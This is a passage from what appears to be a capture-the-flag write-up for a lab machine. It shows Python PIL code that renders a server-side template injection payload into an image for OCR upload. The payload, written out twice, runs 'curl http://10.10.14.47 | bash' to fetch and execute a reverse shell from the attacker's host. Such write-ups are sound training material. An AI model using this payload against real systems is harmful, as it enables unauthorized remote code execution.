 ```python
    d.text((2, height/2), text, fill=colorText, font=font)
    #d.rectangle((0, 0, width+3, height+3), outline=colorOutline)
    
    img.save("test.png")



```

Created the image using above code. After uploading it we got the command execution.

![late-5.png](/assets/img/late/late-5.png)

## Reverse shell

The below script will make a curl request to our http server from their it will fetch the revserse shell content and execute the code.

```txt
{% raw %}
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.47 | bash").read() }}
{% endraw %}
```


```python
from PIL import Image, ImageDraw, ImageFont

def getSize(txt, font):
    testImg = Image.new('RGB', (1, 1))
    testDraw = ImageDraw.Draw(testImg)
    return testDraw.textsize(txt, font)

if __name__ == '__main__':

    fontname = "RobotoSlab-VariableFont_wght.ttf"
    fontsize = 30
    {% raw %}   
    text = """{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.47 | bash").read() }}"""
    {% endraw %}
    colorText = "black"
    colorOutline = "red"
    colorBackground = "white"


    font = ImageFont.truetype(fontname, fontsize)
```
